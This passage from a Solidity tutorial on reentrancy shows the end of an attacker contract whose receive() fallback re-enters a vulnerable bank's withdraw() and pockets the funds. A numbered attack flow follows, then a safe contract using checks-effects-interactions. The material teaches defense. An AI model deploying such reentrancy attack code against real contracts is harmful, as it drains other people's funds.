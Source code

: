 ```solidity
    // Fallback function that gets triggered when receiving Ether
    receive() external payable {
        // Check if there's still Ether in the vulnerable contract
        if (address(vulnerableBank).balance >= attackAmount) {
            // Re-enter the withdraw function before the balance is updated
            vulnerableBank.withdraw();
        }
    }
    
    // Function to withdraw stolen funds
    function withdrawStolenFunds() public {
        require(msg.sender == owner, "Only owner can withdraw");
        payable(owner).transfer(address(this).balance);
    }
}
```

**The Attack Flow:**
1. Attacker deposits 1 ETH into VulnerableBank
2. Attacker calls withdraw()
3. VulnerableBank sends 1 ETH to Attacker, triggering receive()
4. Before balances are updated to zero, Attacker calls withdraw() again
5. The cycle repeats until VulnerableBank is drained

### Multiple Reentrancy Protections

#### 1. Checks-Effects-Interactions Pattern

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SafeBank {
    mapping(address => uint256) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw() public {
        // 1. CHECKS
        uint256 amount = balances[msg.sender];
        require(amount > 0, "Insufficient balance");
        
        // 2. EFFECTS (update state before interaction)
        balances[msg.sender] = 0;
        
        // 3. INTERACTIONS (external calls last)
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```
